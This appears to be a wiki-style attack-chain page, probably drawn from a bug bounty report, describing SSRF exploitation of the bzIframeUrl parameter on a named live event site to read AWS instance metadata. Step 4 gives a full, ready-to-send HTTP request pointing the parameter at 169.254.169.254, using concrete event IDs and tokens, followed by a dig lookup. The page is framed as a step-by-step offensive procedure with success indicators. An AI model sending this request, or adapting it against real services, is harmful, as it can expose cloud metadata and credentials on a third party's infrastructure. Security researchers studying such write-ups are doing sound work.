

# SSRF Exploitation via bzIframeUrl Parameter to Access AWS Instance Metadata

Multi-stage attack chain demonstrating exploitation of SSRF in a third-party event management platform to access internal AWS metadata, potentially exposing cloud infrastructure details.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/dig]]
- Browser or curl for requests

### Target Environment

- Web platform hosted on AWS (third-party Bizzabo service)
- Required services/ports: HTTPS/443
- Network access requirements: Internet access to public endpoint

### Initial Access Requirements

- Valid credentials for the event site (e.g., attendee login)
- Network position: External attacker with authenticated access
- Prior access needed: None, but authentication required for endpoint

## Detailed Attack Procedures

### Step 1: Access the Main Website
procedure: [[procedures/Access-and-Authenticate-to-Target-Event-Site]]

**Objective**: Navigate to the target event site to establish initial contact and prepare for authentication.

**Instructions**: Open a browser and navigate to the summit site. No specific commands needed; use standard browser navigation.

**Expected Output**: Landing page of https://summit.acronis.events/ loads successfully.

**Success Indicators**:
- Site accessible without errors
- Event registration or login options visible

### Step 2: Login to the Website
procedure: [[procedures/Access-and-Authenticate-to-Target-Event-Site]]

**Objective**: Authenticate to gain access to protected endpoints, including the vulnerable /login/wl.

**Instructions**: Use valid credentials (e.g., email and password for an attendee account) to log in via the site's authentication form.

**Expected Output**: Successful login redirects to dashboard or profile area; session cookies set (e.g., x-bz-access-attendee-token).

**Success Indicators**:
- Authentication successful
- Cookies include attendee tokens for eventGroup=31048

### Step 3: Access the Vulnerable Login/wl Endpoint
procedure: [[procedures/Exploit-SSRF-via-bzIframeUrl-to-AWS-Metadata]]

**Objective**: Load the /login/wl endpoint with default parameters to inspect the bzIframeUrl for injection points.

**Instructions**: After login, construct or intercept the GET request to https://summit.acronis.events/login/wl with parameters like bzIframeUrl=ls, eventGroup=31048, eventId=228513. Use browser dev tools or curl to send.

**Expected Output**: Response loads an iframe or login widget; bzIframeUrl parameter present and modifiable.

**Success Indicators**:
- Endpoint responds with 200 OK
- Parameters including bzIframeUrl visible in request

### Step 4: Modify and Send the Request to Exploit SSRF
procedure: [[procedures/Exploit-SSRF-via-bzIframeUrl-to-AWS-Metadata]]

**Objective**: Inject an internal URL into bzIframeUrl to force the server to fetch and expose AWS metadata.

**Instructions**: Modify the bzIframeUrl to http://169.254.169.254/latest/meta-data/ (URL-encoded) and send the GET request using [[commands/Exploit-SSRF-with-Curl-to-AWS-Metadata]] or a proxy like Burp Suite.

```bash
GET /login/wl?bzIframeUrl=http%3a%2f%2f169%2e254%2e169%2e254%2flatest%2fmeta-data%2f&eventGroup=31048&eventId=228513&encryptedOrigin=1%3APXwmTfsOX5swR5WLWW1hEcWFR24vg2RCT1aflJJNM%2BchgNaRQ2fSRv7QJX3Ro27uTjR%2BUzV0z1s3siiObx%2BOHQ%3D%3D&screen=PROFILE_FULL&closable=false&emailLoginRedirectUrl=https%3A%2F%2Fsummit.acronis.events%2Fsettings%2Fprofile&colorMain=%2362a4f7&showChangeEmail=true&showTitle=false&encryptedTokens=1%3AIqgWUC4KnRXhJjI%2Bh4Hr1qbBFa%2FF3CT1SYs5Uv0s6S6ujzX%2FeGjQpYoJiqxy4un688xsXJXHC0CefbCMT724MnJxY%2BPoWfg3UO%2FHX49FTANq%2Fe9cyA%2BXlhLeAn7gWIAyZzg4RNnSwO0OEi%2FcFx5ozg%3D%3D&enableTicketIdLogin=true&enableFullStory=true&restrictLoginWithoutRegistration=true&IBMBannedCountries=false HTTP/1.1
Host: summit.acronis.events
Cookie: [session cookies]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close
```

Then, verify the hosting with [[commands/Dig-DNS-Lookup-for-Domain-CNAME]]:

```bash
dig summit.acronis.events
```

**Expected Output**: Response body lists AWS metadata paths like ami-id, instance-id; dig shows CNAME to sslevents.bizzabo.com.

**Success Indicators**:
- Internal metadata paths exposed in response
- DNS confirms third-party hosting (lowers severity)

## Attack Chain Summary

### Key Achievements

1. Successful SSRF exploitation revealing AWS metadata paths
2. Confirmation of third-party hosting via DNS lookup
3. Demonstration of potential for broader internal network access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
